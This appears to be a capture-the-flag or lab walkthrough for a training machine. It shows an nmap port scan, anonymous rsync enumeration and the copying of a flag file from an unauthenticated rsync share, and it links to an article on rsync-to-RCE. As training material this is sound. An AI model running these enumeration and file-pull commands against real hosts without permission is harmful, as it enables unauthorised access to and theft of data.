

# 1. Enumeration

- We will begin by scanning the remote host for any open ports and running services with `nmap`

```
nmap -p- --min-rate=1000 -sV 10.129.228.37
```

# 2. Rsync

- `rsync` is an open source utility that provides fast incremental file transfer. The way `rsync` works makes it
an excellent choice when there is a need to synchronize files between a computer and a storage drive and across
networked computers. 

- First, we will start enumerating the service to see if it requires authentication and check user's permissions.
```
rsync 10.129.228.39::
```


- `rsync` returns with the available directory without asking for authentication, which means that the service 
allows anonymous unauthenticated access.

- Let's see what's in `public`:
```
rsync -av rsync://10.129.228.37/public
```


- The final step is to copy/sync this file to our local machine and read it!
```
rsync -av rsync://10.129.228.37/public/flag.txt /home/kali
```
---
## <u>Note</u>

- `rsync` file upload to RCE: <a href="https://medium.com/r3d-buck3t/attack-insecure-rsync-service-928951af34ed">here</a>